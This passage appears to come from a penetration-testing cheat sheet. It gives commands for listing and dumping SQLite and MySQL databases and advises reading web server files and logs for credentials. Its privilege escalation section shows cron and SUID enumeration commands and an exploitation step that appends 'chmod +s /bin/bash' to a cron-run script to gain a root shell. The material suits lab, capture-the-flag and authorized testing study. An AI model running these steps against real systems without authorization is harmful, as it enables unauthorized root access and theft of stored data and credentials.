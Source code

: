 -> list the tables
```
.tables
```

-> dump
```
select * from <table>;
```

#### MySQL
```
mysql -u root -h localhost -p
```
-> list the databases
```
show databases;
```
-> select the database
```
use <database>;
```

-> list the tables
```
show tables;
```

-> dump
```
SELECT * FROM <table>;
```

### Other Tips
-> Perform code review on web server files (/var/www/html);
-> Check log files for credentials;

--- 

## Privilege Escalation
### Crontab [PrivEsc]
-> Enumeration  
```
cat /var/log/cron.log                                                                                                                                              
cat /etc/crontab
```

-> Exploitation  
```
echo "chmod +s /bin/bash" >> script.sh
```

### SUID [PrivEsc]
-> Enumeration 
```
find / -perm -u=s -type f 2>/dev/null
```
or  
```
id
find / -perm -u=s -type f -group <group> 2>/dev/null
```
